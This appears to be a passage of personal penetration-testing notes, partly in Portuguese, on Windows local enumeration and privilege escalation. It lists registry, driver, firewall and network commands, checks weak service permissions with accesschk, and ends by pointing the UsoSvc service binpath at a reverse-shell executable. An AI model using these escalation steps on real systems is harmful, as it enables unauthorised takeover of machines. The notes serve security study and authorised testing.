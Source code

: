     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name

## Enumerate device drivers

```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object Display Name, Start Mode, Path

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer

Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

    mountvol

Depois dee enumerar, eh interessante montarmos o volume pra verificar se temos algo.

    mountvol G: \\?\Volume{ff136f5c-4935-11e9-80b5-806e6f6e6963}\


## firwewall rules enumeration

    netsh advfirewall show currentprofile
    
    netsh advfirewall firewall show rule name=all
    
     Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
    
    
## Services enumeration and Network information

A presença de interfaces virtuais pode aferir a ideia de existir máquinas virtuais na máquina ou de anti vírus instalado.

    ipconfig /all
    route print
    netstat -ano #(process ID como -o, requer privilégios administrativos)
    netstat -anb #(nome do binário com o -b, requer privilégios administrativos)

### Weak service permissions

![qownnotes-media-jCADRm](../../media/qownnotes-media-jCADRm.png)

![qownnotes-media-Yhpwrk](../../media/qownnotes-media-Yhpwrk.png)

    ./accesschk.exe -ucwqv UsoSvc /accepteula
    
    ./accesschk.exe -ucwqv <servicename> /accepteula
    
Com esse comando, verificamos que estamos no grupo NTAUTHORITY/SERVICE
    
    whoami /all

![qownnotes-media-zdSaRr](../../media/qownnotes-media-zdSaRr.png)

    sc.exe config usosvc binpath="C:\temp\revshell.exe"
